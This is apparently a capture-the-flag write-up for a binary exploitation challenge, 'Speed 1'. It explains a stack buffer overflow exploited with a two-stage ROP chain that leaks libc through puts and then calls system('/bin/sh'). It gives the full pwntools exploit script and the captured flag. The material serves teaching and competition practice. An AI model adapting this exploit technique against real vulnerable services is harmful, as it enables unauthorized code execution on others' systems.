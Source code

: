 # Speed 1

## Challenge

We're given a binary with no PIE and no canary, as well as a glibc.

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

There is a buffer overflow vulnerability.
Combined with the lack of PIE and canary, we can trivially overwrite the return address with a ropchain.

By using the ropchain to print the GOT entry of a function, we can leak the libc address.
Then we return to the vulnerable code to enter a second stage ropchain.

In the second stage, we now have access to glibc functions.
We can use this to call `system("/bin/sh")` and spawn a shell to read the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host speed-01.hfsc.tf --port 61000 speed1
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('speed1')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'speed-01.hfsc.tf'
port = int(args.PORT or 61000)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *0x{exe.entry:x}
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

libc = ELF('libc.so.6')

io = start()

rop = ROP(exe)
rop.call(exe.plt['puts'], [exe.got['puts']])
rop.call(0x004011cb)

print(rop.dump())

io.sendlineafter(b"b0fz: ", flat({ 0x20 + 8: rop.chain() }))

libc.address = unpack(io.recvuntil(b'\n', drop=True).ljust(8, b'\x00')) - libc.sym['puts']

io.info("LIBC: " + hex(libc.address))

rop = ROP(exe)
rop.call(rop.ret)
rop.call(libc.sym['system'], [next(libc.search(b"/bin/sh"))])

print(rop.dump())

io.sendlineafter(b"b0fz: ", flat({ 0x20 + 8: rop.chain() }))

io.interactive()
```

## Flag

```
midnight{b3ee4fd1e8b331a237b234395d1ad0a0}
```
